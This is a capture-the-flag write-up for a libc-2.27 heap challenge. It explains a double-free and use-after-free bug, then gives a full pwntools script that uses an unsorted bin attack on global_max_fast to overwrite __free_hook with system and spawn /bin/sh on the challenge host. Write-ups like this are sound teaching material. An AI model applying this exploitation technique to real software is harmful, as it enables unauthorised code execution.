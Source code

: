 Here we have a heap challenge,

base on libc-2.27.

All the protections are on.

The challenge has the traditionnal add, view, edit, delete menu..

You can allocate a maximum of 5 blocs, of size up to 0x10000 bytes.

The free function, does not zero pointers after free, and does not check if the block is already freed , so we have a double free..

The Show & Edit functions does not check if the block is already freed, so you have an UAF vulnerability also...

Seems easy, like this, but the all the allocations are processed via a malloc function that checks if the returned bloc address,

are in a range from the beginning of the heap, to 0x600000000000...

So no tcache poisonning, or any simple attack that will return us a block, in libc, or in .bss..

The solution was a unsorted bin attack on global_max_fast,

where the free of the corrupted block, will overwrite __free_hook,   with libc system funtion address.


```python
from pwn import *
#context.terminal = ['lxterminal', '--title=GDB-Pwn', '--geometry=128x52', '-e']
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
#context.log_level = 'error'

host, port = "use-after-freedom.hsc.tf", "1337"
filename = "use_after_freedom"
elf = ELF(filename)
context.arch = 'amd64'

# globals
prog_base = 0
heap_base = 0
libc_base = 0

libc = ELF('./libc.so.6')

def getConn():
   return process(filename) if not args.REMOTE else remote(host, port)


# for debugging read actual mappings values to prog_base, heap_base, libc_base... should be correct 99% of the time
def get_BASES(proc):
    global prog_base
    global libc_base
    global heap_base
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    i = 0
    while (not b'r--' in memory_map[i]) and (not b'r-x' in memory_map[i]) and (filename in memory_map[i]):
      i += 1
    prog_base = int(memory_map[i].split(b"-")[0],16)
    while not b'[heap]' in memory_map[i]:
      i += 1
    heap_base = int(memory_map[i].split(b"-")[0],16)
    while not (b'r--' in memory_map[i]) and (b'libc-' in memory_map[i]):
      i += 1
    libc_base = int(memory_map[i+1].split(b"-")[0],16)


def debug(bp):
    script = "source ~/gdb.plugins/gef/gef.py\n"
    get_BASES(p)
    libc.address = libc_base
    for x in bp:
        script += "b *0x%x\n"%(prog_base+x)
#    script += 'awatch *{:#x}\n'.format(libc.symbols['__free_hook'])
    script += 'directory /usr/src/glibc/glibc-2.27\n'
    script += "c\n"

    gdb.attach(p,gdbscript=script)

def add(size, data):
  p.sendlineafter('> ', '1')
  p.sendlineafter('> ', str(size))
  p.sendafter('> ', data)

def free(index):
  p.sendlineafter('> ', '2')
  p.sendlineafter('> ', str(index))

def show(index):
  p.sendlineafter('> ', '4')
  p.sendlineafter('> ', str(index))

def edit(index,data):
  p.sendlineafter('> ', '3')
  p.sendlineafter('> ', str(index))
  p.sendafter('> ', data)

p = getConn()
if not args.REMOTE and args.GDB:
	debug([0xe05])

def get_BASES(proc):
    global prog_base
    global libc_base
    global heap_base
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    i = 0
    while not '[heap]' in memory_map:
      i = i + 1
    heap_base = int(memory_map[i].split("-")[0],16)
    libc_base = int(memory_map[i+1].split("-")[0],16)

if args.GDB:
  print('prog base: {:#x}'.format(prog_base))
  print('heap base: {:#x}'.format(heap_base))
  low = (heap_base+0x10) & 0xffff
  libc.address = libc_base
  print('libc base: {:#x}'.format(libc.address))
  low2 = (libc.symbols['_IO_2_1_stdout_']) & 0xffff
else:
  # try arbitrary values
  low = 0xc010
  low2 = 0x6760

add(0x3940, "A")
add(0x200, "B")
free(0)
show(0)

leak = u64(p.recvline().strip() + p16(0))
log.warn("leak @ 0x%x", leak)

# global_max_fast
libc.address = leak - 0x3ebca0
log.warn("Libc base @ 0x%x", libc.address)

free(1)
edit(1, b"M"*8)
show(1)

p.recvuntil(b"M"*8)
heap = u64(p.recvline().strip() + p16(0))
log.warn("Heap leak @ 0x%x", heap)

# overwrite global_max_fast
edit(0, p64(0) + p64(libc.address + 0x3ed940 - 0x10))
add(0x3940, "Unsorted bin attack!")

free(2)

# overwrite
edit(2, p64(libc.symbols['system']))
add(0x3940, "/bin/sh")
# execute system('/bin/sh')
free(3)




p.interactive()
```

*nobodyisnobody still pwning things...
*

